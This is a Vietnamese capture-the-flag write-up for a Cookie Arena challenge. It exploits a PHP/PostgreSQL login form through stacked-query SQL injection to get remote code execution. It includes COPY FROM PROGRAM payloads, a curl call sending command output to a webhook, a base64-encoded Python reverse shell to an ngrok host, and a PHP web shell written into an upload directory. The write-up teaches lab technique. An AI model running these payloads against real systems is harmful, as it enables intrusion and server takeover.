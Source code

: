 ```yaml
---
title: "[WRITEUP] Baby SQL Injection to RCE - COOKIE ARENA"
categories:
- CTF Writeup
- Cookie Arena
tags:
- SQLi
date: '2024-07-10 14:30:00'
---
```


## Intro
Link Challenge: [here](https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rce){:target="\_blank"}

Mô tả: 
```
This is because traditional SQL injection techniques. Could you execute command?

The challenge is running in PostgreSQL and PHP.

Flag File: /flagXXXX.txt
Flag Format: CHH{XXX}
```
## Exploit
Mới đầu vào xuất hiện 1 trang login:

![Login Page](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/1.png)

Source code:
```php
<?php
  include_once('./ignore/design/design.php');
  $design = Design(__FILE__, 'Basic Web');

  include('config.php');
  $message = "";
  
  if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $username = trim($_POST['username']);
      $password = trim($_POST['password']);
  
      // Truy vấn kiểm tra tên người dùng và mật khẩu
      $sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
      $result = pg_query($conn, $sql) or die(pg_last_error());

      if (pg_num_rows($result) > 0) {
        $message = "Welcome, $username!";
      } else {
        $message = "Invalid username or password!";
      }
  }
?>
<html>
  <head>
    <title>Basic Login</title>
  </head>
  <body>
    <?php if(strlen($message) > 0) { echo $message; } else { ?>
    <div>
        <h2>Login</h2>
        <form action="/index.php" method="post">
          
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" class="form-control" id="username" name="username">
            </div>
            <div class="form-group">
                <label for="pwd">Password:</label>
                <input type="password" class="form-control" id="pwd" name="password">
            </div>
            <button type="submit" class="btn btn-primary">Login</button>
        </form>
    </div>
    <?php } ?>

    <div>
      <?php echo $design; ?>  
    </div>    
  </body>
</html>
```

Trước hết, đọc source code ta thấy được câu truy vấn `$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";`. Trigger sqli 1 mệnh đề đúng => nảy sang 1 trang welcome, Ngược lại trả về "Incorrect Username or Password" ==> Blind SQLi.
![Welcome](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/2.png)

Như cái tiêu đề và mô tả, chúng ta phải khai thác SQL injection to RCE vì flag nằm trong file hệ thống chứ không nằm trong db. 2 ý tưởng nảy trong đầu của tui:
1. Liệu có câu lệnh sql của PostgreSQL nào giúp ta thực thi os command hay không?
2. Liệu có thư mục nào mà ta có quyền ghi file? Từ đó up webshell bằng SQL?

Nhưng, trong câu truy vấn gốc với mệnh đề select thì ta không làm được gì nhiều. Vậy liệu còn cách nào khác giúp ta có thể chạy nguyên vẹn 1 sql command để có thể làm được nhiều thứ hơn? Có một khái niệm cho phép ta làm điều này [Stack Queries](https://cookiearena.org/penetration-testing/stacked-query-trong-sql-injection/){:target="\_blank"}.

![Stack Queries](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/3.png)

Vậy là confirm rằng psql có support Stacked Queries.

### Vector 1: Execute OS command via SQL
Sau một hồi research docs của postgresql, tui tìm được [cái này](https://www.postgresql.org/docs/current/sql-copy.html#:~:text=the%20path%20name.-,PROGRAM,string%2C%20or%20at%20least%20avoid%20including%20any%20user%20input%20in%20it.,-STDIN){:target="\_blank"}.
 
 `COPY FROM PROGRAM` giúp ta thực hiện vector 1 mà tui đưa ra. 

- Bắt đầu với việc tạo 1 table.
```text
';CREATE TABLE shell(output text);-- -
```

![Create Table](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/4.png)

- Sử dụng PROGRAM để thiết lập command. Test payload:
```text
'; COPY shell FROM PROGRAM 'curl https://webhook.site/de60c29f-ebc7-4f64-8851-09f08950387e/res=`id`';-- -
```

![Test exec command](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/5.png)

Sure là payload của ta hoạt động. RCE thoaii

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/6.png)

Giải thích một chút payload:
- Đầu tiên, biết server đang chạy python3, nên tui dùng payload reverse shell này:
```
export RHOST="0.tcp.ap.ngrok.io";export RPORT=19890;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

- Tiếp đến, để vận chuyển payload 1 cách mượt mà, tui base64 lại và dùng pipeline để xử lý payload. Full payload nè:
```
'; COPY shell FROM PROGRAM 'echo "ZXhwb3J0IFJIT1NUPSIwLnRjcC5hcC5uZ3Jvay5pbyI7ZXhwb3J0IFJQT1JUPTE5ODkwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn" | base64 -d | /bin/bash';-- -
```

### Vector 2: Upload shell via SQL

- Thứ nhất, điều kiện tiên quyết là upload ở đâu đó trong document-root để có thể thực thi file php? 
- Và thư mục đó có quyền ghi cho user postgres hay không?

Thực hiện dirsearch endpoint của website thì phát hiện ra 1 số thứ hay ho:

![dirsearch](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/7.png)

Trang phpinfo cho ta biết được một số thông tin quan trọng như document_root. 

![phpinfo](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/8.png)

Thư mục upload

![upload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/9.png)


Thư mục upload/ và document_root là 2 keys chính cho giả thiết 2 này. 

Việc còn lại là craft 1 payload để ghi file, cụ thể hơn là file php (để chứng minh thư mục file php có được thực thi hay không).

```
'; CREATE TEMPORARY TABLE temp_results(a VARCHAR(255)); INSERT INTO temp_results (a) VALUES ('<?php phpinfo(); ?>'); COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);-- -
```

![test payload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/10.png)

Giải thích payload:
- Tạo 1 bảng tạm có 1 column để chèn payload.
- `COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);` câu lệnh giúp xuất toàn bộ content của table `temp_results` chứa payload vào 1 file trong hệ thống với absolute path (nếu cố tình chèn relative path sẽ gây ra lỗi) (đó cũng chứng minh rằng document_root là thông tin cần thiết cho vector này).

Thay payload phpinfo() bằng `<?php system($_GET[cmd]); ?>');` => RCE

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/11.png)